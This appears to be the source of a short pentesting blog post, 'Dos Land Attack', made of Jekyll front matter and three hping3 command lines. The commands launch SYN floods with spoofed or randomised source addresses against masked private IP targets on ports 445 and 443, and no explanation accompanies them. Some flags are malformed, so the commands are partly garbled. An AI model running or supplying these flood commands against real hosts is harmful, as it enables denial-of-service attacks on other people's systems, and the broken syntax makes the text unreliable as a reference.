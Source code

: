 ```yaml
---
layout: post
title: Dos Land Attack
categories: [Pentesting]
tags: [Kali, Linux]
description: Hping3
fullview: true
comments: true
---
```


{% highlight yaml %}
$ hping3 -V -C 10000000 -d 120 -S -10 64 -p 445 -S 445 --flood --rand-source 192.168.xx.xx
$ hping3 -i u1000 -S -p 443 192.168.xxx.xxx
$ hping3 -q -n 10.0.0.1 -S -s 53 --keep -p 445 --flood 192.168.xxx.xxx
{% endhighlight %}
